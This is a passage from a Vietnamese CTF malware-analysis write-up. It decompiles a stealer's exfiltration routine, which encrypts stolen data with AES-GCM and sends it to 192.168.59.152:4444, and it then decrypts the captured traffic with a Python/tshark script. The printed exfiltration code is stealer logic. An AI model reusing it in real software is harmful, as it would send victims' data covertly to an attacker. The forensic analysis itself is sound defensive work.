    return 0;
  v6 = 0;
  if ( WSAStartup(0x202u, &lpWSAData) )
  {
    fnFreeMem(ptrToExfilData);
    return 0;
  }
  else
  {
    socket = ::socket(AF_INET, SOCK_STREAM, 0);
    if ( socket == -1LL )
    {
      fnFreeMem(ptrToExfilData);
      WSACleanup();
      return 0;
    }
    else
    {
      argp = 1;
      ioctlsocket(socket, 0x8004667E, &argp);   // FIONBIO
      name.S_un.S_un_w.s_w1 = 2;
      name.S_un.S_un_w.s_w2 = htons(4444u);
      if ( inet_pton(2, "192.168.59.152", pAddrBuf) != 1 )
        goto LABEL_20;
      returnCode = connect(socket, &name, 16);
      if ( returnCode == -1 && WSAGetLastError() == 0x2733 )
      {
        writefds.fd_array[0] = socket;
        writefds.fd_count = 1;
        timeout.tv_sec = 5;
        timeout.tv_usec = 0;
        if ( select(socket + 1, 0, &writefds, 0, &timeout) == 1 )
        {
          *optval = 0;
          optlen = 4;
          getsockopt(socket, 0xFFFF, 4103, optval, &optlen);
          if ( !*optval )
            v6 = 1;
        }
      }
      else if ( !returnCode )
      {
        v6 = 1;
      }
      if ( v6
        && (argp = 0,
            ioctlsocket(socket, 0x8004667E, &argp),
            *optval_1 = 5000,
            setsockopt(socket, 0xFFFF, 4102, optval_1, 4),
            setsockopt(socket, 0xFFFF, 4101, optval_1, 4),
            *buf = htonl(dataLen),
            send(socket, buf, 4, 0) != -1) ) // 4 bytes đầu = size của exfil data
      {
        for ( i = 0; i < dataLen; i += v11 )
        {
          v11 = send(socket, ptrToExfilData + i, dataLen - i, 0); // exfil data
          if ( v11 == -1 )
            break;
        }
        closesocket(socket);
        fnFreeMem(ptrToExfilData);
        WSACleanup();
        return 1;
      }
      else
      {
LABEL_20:
        closesocket(socket);
        fnFreeMem(ptrToExfilData);
        WSACleanup();
        return 0;
      }
    }
  }
}
```
- Hàm này nhận vào 1 tham số là address của dữ liệu cần exfil, gọi hàm fnEncryptData() để encrypt dữ liệu, send data tới 192.168.59.152:4444 dưới cấu trúc: [4 bytes data length][encrypted data]. Hàm fnEncryptData():
```cpp
LPVOID __fastcall fnEncryptData(BYTE *data, ULONG *dataLen, UCHAR *pbSecret)
{
  BCRYPT_ALG_HANDLE phAlgorithm; // [rsp+58h] [rbp-B0h] BYREF
  QWORD output; // [rsp+60h] [rbp-A8h]
  ULONG size; // [rsp+68h] [rbp-A0h]
  ULONG pcbResult; // [rsp+6Ch] [rbp-9Ch] BYREF
  BCRYPT_KEY_HANDLE aesKey; // [rsp+70h] [rbp-98h] BYREF
  HCRYPTPROV phProv; // [rsp+78h] [rbp-90h] BYREF
  _BCRYPT_AUTHENTICATED_CIPHER_MODE_INFO pPaddingInfo; // [rsp+80h] [rbp-88h] BYREF
  __m128i nonce; // [rsp+E0h] [rbp-28h] BYREF

  phAlgorithm = 0;
  aesKey = 0;
  output = 0;
  if ( BCryptOpenAlgorithmProvider(&phAlgorithm, L"AES", 0, 0) )
    return 0;
  if ( BCryptSetProperty(phAlgorithm, L"ChainingMode", L"ChainingModeGCM", 32u, 0) )
    goto LABEL_9;
  phProv = 0;
  if ( !CryptAcquireContextA(&phProv, 0, 0, 1u, CRYPT_VERIFYCONTEXT) )
    goto LABEL_9;
  if ( !CryptGenRandom(phProv, 12u, &nonce) ) // sinh 12-byte nonce
  {
    CryptReleaseContext(phProv, 0);
    BCryptCloseAlgorithmProvider(phAlgorithm, 0);
    return 0;
  }
  CryptReleaseContext(phProv, 0);
  if ( BCryptGenerateSymmetricKey(phAlgorithm, &aesKey, 0, 0, pbSecret, 16u, 0) )
  {
LABEL_9:
    BCryptCloseAlgorithmProvider(phAlgorithm, 0);
    return 0;
  }
  else
  {
    size = *dataLen + 28;
    output = fnHeapAlloc((size + 1)); // cấp phát 1 buffer có size = dataLen (size của data ban đầu cần encrypt) + 29
    if ( output )
    {
      fnMemset(output, 0, (size + 1));
      fnMemmove(output, &nonce, 12u); // 12-byte nonce đặt ở đầu payload
      fnMemset(&pPaddingInfo, 0, 88u);
      pPaddingInfo.cbSize = 88;
      pPaddingInfo.dwInfoVersion = 1;
      pPaddingInfo.pbNonce = &nonce;
      pPaddingInfo.cbNonce = 12;
      pPaddingInfo.pbTag = (output + *dataLen + 12); // 16-byte tag đặt ở cuối payload
      pPaddingInfo.cbTag = 16;
      pcbResult = 0;
      if ( BCryptEncrypt(aesKey, data, *dataLen, &pPaddingInfo, 0, 0, (output + 12), *dataLen, &pcbResult, 0) )
      {
        fnFreeMem(output);
        BCryptDestroyKey(aesKey);
        BCryptCloseAlgorithmProvider(phAlgorithm, 0);
        return 0;
      }
      else
      {
        *dataLen = pcbResult + 28;
        BCryptDestroyKey(aesKey);
        BCryptCloseAlgorithmProvider(phAlgorithm, 0);
        return output;
      }
    }
    else
    {
      BCryptDestroyKey(aesKey);
      BCryptCloseAlgorithmProvider(phAlgorithm, 0);
      return 0;
    }
  }
}
```
- Hàm trên khởi tạo AES ở chế độ GCM, sinh ngẫu nhiên một 12-byte nonce, sử dụng 16-byte pbSecret nhúng sẵn trong tệp làm key AES-128, sau đó cấp phát một buffer có kích thước = plaintext length + 29 byte. Dữ liệu được mã hóa bằng BCryptEncrypt() với GCM. Kết quả được lưu theo cấu trúc [12-byte nonce][ciphertext][16-byte tag]. hàm fnEncryptAndExfil() là hàm duy nhất được stealer sử dụng để encrypt dữ liệu.
- Ta sẽ viết 1 script parse pcapng và decrypt data:
```python
import subprocess
import re
import os
from Crypto.Cipher import AES

pcap_file = 'challenge.pcapng'
# lấy danh sách tất cả TCP stream id liên quan đến 192.168.59.152:4444
cmd = [
    'tshark', '-r', pcap_file,
    '-Y', f'ip.addr == 192.168.59.152 && tcp.port == 4444',
    '-T', 'fields',
    '-e', 'tcp.stream',
]
result = subprocess.run(cmd, capture_output=True, text=True)
streamIdList = set(result.stdout.strip().split('\n'))
print(f'Stream Id list: {streamIdList}')

aesKey = b'+~\x15\x16(\xae\xd2\xa6\xab\xf7\x15\x88\t\xcfO<'
# extract và decrypt raw payload của 1 TCP stream (đã reassemble bởi tshark)
for streamId in streamIdList:
    cmd = [
        'tshark', '-r', pcap_file,
        '-z', f'follow,tcp,raw,{streamId}',
        '-q'
    ]
    result = subprocess.run(cmd, capture_output=True, text=True).stdout.strip().split('\n')
    encryptedDataLen, payload = result[5], bytes.fromhex(result[6])

    nonce = payload[:12]
    ciphertext = payload[12:-16]
    tag = payload[-16:]

    cipher = AES.new(aesKey, AES.MODE_GCM, nonce)
    try:
        plaintext = cipher.decrypt_and_verify(ciphertext, tag)
        print(
            f'#'*10 +
            f'{streamId}' +
            f'='*10 +
            plaintext.decode() +
            f'#'*50
        )
        with open(f'./decrypted/{streamId}.txt', 'wb') as f:
            f.write(plaintext)
    except ValueError:
        print(f'Stream id: {streamId}')

```
- Kết quả:

